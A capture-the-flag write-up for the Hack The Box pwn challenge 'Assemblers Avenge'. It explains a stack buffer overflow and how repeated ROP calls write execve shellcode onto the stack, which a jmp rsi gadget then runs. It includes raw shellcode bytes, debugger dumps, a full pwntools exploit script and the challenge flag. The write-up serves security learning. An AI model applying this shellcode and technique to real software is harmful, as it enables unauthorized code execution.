

	# HTB Distopia - PWN | Assemblers Avenge

This challenge involved adding shellcode to the stack through recursive ROP calls and executing that shellcode through a relative JMP instruction.

### Initial Analysis

Looking at checksec there are no memory protections on the binary

```
$ checksec assemblers_avenge
	RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Taking a look through the binary, there is an obvious buffer overflow in the `_read` function. The buffer is located at `[RBP + -0x8]` which makes the buffer 8 bytes long, however `0x18` bytes are being read into it.

```
                _read                                           
0040106d 55              PUSH       RBP
0040106e 48 89 e5        MOV        RBP,RSP
00401071 48 83 ec 10     SUB        RSP,0x10
00401075 48 c7 c7        MOV        __fd,0x0
         00 00 00 00
0040107c 48 8d 75 f8     LEA        __buf=>local_10,[RBP + -0x8]
00401080 48 c7 c2        MOV        __nbytes,0x18
         18 00 00 00
00401087 48 c7 c0        MOV        RAX,0x0
         00 00 00 00
0040108e 0f 05           SYSCALL
00401090 c9              LEAVE
00401091 c3              RET
```

The assembly above is equivalent to

``` c
void _read() {
    char buffer[8];
    read(0, buffer, 0x18);
}
```

Now that the vulnerability has been discovered, the next step is to find a method to exploit it. There are two concerns when exploiting this:
- the amount of data that can be written is 16 bytes (24 - 8)
- the address of the stack is unknown

### Exploitation

Tackling the first issue is pretty simple through using recursive calls to `_read`. By setting RIP to `_read`, the buffer overflow vulnerability can be abused multiple times to make numerous write to the stack. Only 8 bytes can be written on the stack that don't get overriden, so shellcode with a payload size of 24 bytes will take 3 calls to `_read`.

``` python
f_read = p64(0x40106d)

shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
```

Breaking after the `read` syscall is done executing the first 8 bytes of the shellcode are loaded.

```
pwndbg> x/20gx $rsp+0x8
0x7ffc01dcf290:	0x48f63148d2314850	0x4141414141414141
0x7ffc01dcf2a0:	0x000000000040106d	0x0000000000000000
```

Load the second part of the shellcode.

```
pwndbg> x/20gx $rsp
0x7ffd34e24560:	0x48f63148d2314850	0x68732f6e69622fbb
0x7ffd34e24570:	0x4141414141414141	0x000000000040106d
```

Load the third part of the shellcode.

```
pwndbg> x/20gx $rsp-0x08
0x7ffd34e24560:	0x48f63148d2314850	0x68732f6e69622fbb
0x7ffd34e24570:	0x050f3bb05f545300	0x4141414141414141
0x7ffd34e24580:	0x000000000040106d	0x0000000000000000
```

The complete shellcode should now be loaded to the stack

```
pwndbg> x/10i $rsp-0x8
   0x7ffd34e24560:	push   rax
   0x7ffd34e24561:	xor    rdx,rdx
   0x7ffd34e24564:	xor    rsi,rsi
   0x7ffd34e24567:	movabs rbx,0x68732f6e69622f
   0x7ffd34e24571:	push   rbx
   0x7ffd34e24572:	push   rsp
   0x7ffd34e24573:	pop    rdi
   0x7ffd34e24574:	mov    al,0x3b
   0x7ffd34e24576:	syscall 
   0x7ffd34e24578:	rex.B
```

The next step is finding a method of jumping to the top of the shellcode. This can be done through the gadget `0x40106b: jmp rsi;`. Since RSI stores the value of the buffer when `read()` is called, then it can also be used for jumping to the stack. The issue here is that RSI does not contain the location of the shellcode, but of the current buffer. Getting around this is pretty easy by using a relative jump instruction `jmp -0x1a`.



Put these two pieces together to execute shellcode and get the flag!
`HTB{y0ur_l0c4l_4553mbl3R5_4v3ng3d_066023bd8dc6109e6e4547497951c2ce}`

### Solve

``` python
""" HTB | Armed Terminal
This challenge is slightly tricky in that you need to find a way to jump to shellcode without a stack leak
in order to do this you need to:
  - place shellcode on the stack using numerous ROP calls to the _read function
  - use the gadget { jmp rsi } to jump to the top of the shellcode
"""
from pwn import *

context.binary = './assemblers_avenge'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

HOST = '94.237.49.212'
PORT = 39904

def get_process():
  return process() # use this if you want to test locally
  #return remote(HOST, PORT)

def main():
  proc = get_process()

  f_read = p64(0x40106d)
  g_jmp_rsi = p64(0x0040106b)

  # Payloads to place shellcode on the stack
  shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
  shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
  shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
  nop_writes = b'\x90'*0x10 + f_read

  # Place nop sled above the shellcode
  for i in range(4):
    proc.send(nop_writes)

  # Place shellcode on the stack
  proc.send(shell1)
  proc.send(shell2)
  proc.send(shell3)

  # Perform a ROP to jmp RSI, which contains a relative jump instruction to go to our shellcode
  proc.send(b'\xe9\xe0\xff\xff\xff'.ljust(0x10, b'A') + g_jmp_rsi)
  proc.interactive()

if __name__ == '__main__':
  main()
```